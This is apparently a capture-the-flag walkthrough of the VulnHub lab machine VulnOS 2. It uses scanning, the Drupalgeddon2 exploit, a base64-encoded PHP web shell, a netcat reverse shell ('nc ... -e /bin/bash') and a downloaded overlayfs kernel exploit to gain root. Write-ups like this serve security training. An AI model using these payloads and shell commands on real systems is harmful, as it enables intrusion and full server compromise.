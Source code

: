 ```yaml
---
title: VulnHub - VulnOS 2
author: s4rgaz
date: 2021-11-30 10:30:12 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, drupal, rce]
---
```


**Description:** A linux machine hosting a version of Drupal vulnerable to Remote Code Execution. A kernel exploit allowed gaining root privileges.

**Author:** c4b3rw0lf

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/vulnos-2,147/](https://www.vulnhub.com/entry/vulnos-2,147/)

## Information Gathering
### Host Discovery

A ping scan was performed to locate the target host, the script you can find it [here](https://github.com/s4rgaz/hdiscovery.git).

```console
root@kali:~$ hdiscovery.py -r 192.168.179.0/24
192.168.179.172 => up
```


### Port Scanning

A full TCP/UDP scan was performed to detect open ports with unicornscan.

```console
root@kali:~$ us -mT -Iv 192.168.179.172:a -r 3000 -R 3  && us -mU -Iv 192.168.179.172:a -r 3000 -R 3
...
TCP open                     ssh[   22]         from 192.168.179.172  ttl 64 
TCP open                    http[   80]         from 192.168.179.172  ttl 64 
TCP open                     irc[ 6667]         from 192.168.179.172  ttl 64
```


### Service Enumeration

An aggressive scan was performed to detect more information about the open ports.

```console
root@kali:~$ nmap -n -v -A -p22,80,6667 192.168.179.172 -oN nmap/service-enum.txt
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
```

### Web Enumeration

The web page contains a link called **website**, we click on it.

![](/assets/images/vulnos2/screenshot-1.png)

Another web page is displayed on the screen, looking at the source it was possible to detect that it's a Drupal 7.

![](/assets/images/vulnos2/screenshot-2.png)

![](/assets/images/vulnos2/screenshot-3.png)

## Exploitation
### Remote Code Execution

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.


We download the exploit and install the dependencies.

```console
root@kali:~$ git clone https://github.com/dreadlocked/Drupalgeddon2
root@kali:~$ cd Drupalgeddon2 
root@kali:~/Drupalgeddon2$ gem install highline
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Done installing documentation for highline after 10 seconds
1 gem installed
```

We run the exploit adding the target URL as parameter.

```console
root@kali:~/Drupalgeddon2$ ./drupalgeddon2.rb http://192.168.179.172/jabc/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.179.172/jabc/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.179.172/jabc/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.179.172/jabc/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.179.172/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] WARNING: Could be a false-positive [1-1], as the file could be reported to be missing
[!] MISSING: http://192.168.179.172/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] MISSING: http://192.168.179.172/jabc/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://192.168.179.172/jabc/includes/database.inc    (HTTP Response: 404)
[+] Header : v7 [X-Generator]
[+] Found  : http://192.168.179.172/jabc/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://192.168.179.172/jabc/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OZVTAGPS
[+] Result : OZVTAGPS
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.179.172/jabc/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.179.172/jabc/shell.php' -d 'c=hostname'
VulnOSv2>> whereis nc
nc: /bin/nc /bin/nc.traditional /usr/share/man/man1/nc.1.gz
```

As we can see the exploitation was successful, then we set up a netcat listener on port 443 and execute the following netcat instruction:

```console
VulnOSv2>> nc 192.168.179.1 443 -e /bin/bash
```

We got a shell with low privileges.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.172] 49471
python -c "import pty; pty.spawn('/bin/bash')"
www-data@VulnOSv2:/var/www/html/jabc$
```

This kernel version is vulnerable to the following exploit.

```console
www-data@VulnOSv2:/var/www/html/jabc$ cat /proc/version
cat /proc/version
Linux version 3.13.0-24-generic (buildd@komainu) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014
```

```console
root@kali:~$ searchsploit ubuntu 3.13.0                                                                                       
----------------------------------------------------------------------------------------------------------- ---------------------------
 Exploit Title                                                                                             |  Path                   
----------------------------------------------------------------------------------------------------------- ---------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation       | linux/local/37292.c
...
----------------------------------------------------------------------------------------------------------- ---------------------------
```

## Privilege Escalation
### Kernel Exploit

The overlayfs implementation in the linux (aka Linux kernel) package before3.19.0-21.21 in Ubuntu through 15.04 does not properly check permissionsfor file creation in the upper filesystem directory, which allows localusers to obtain root access by leveraging a configuration in whichoverlayfs is permitted in an arbitrary mount namespace.

We copy the exploit to our current directory and start a web server with python.

```console
root@kali:~$ searchsploit -m linux/local/37292.c

root@kali:~$ python3 -m http.server 80
```

On the target machine we download it, compile it and execute it. As we can see now we are root.

```console
www-data@VulnOSv2:/tmp$ wget 192.168.179.1/37292.c -O ofs.c

www-data@VulnOSv2:/tmp$ gcc ofs.c -o ofs
gcc ofs.c -o ofs
www-data@VulnOSv2:/tmp$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

# cd /root
cd /root
# ls
ls
flag.txt
# cat flag.txt
cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```


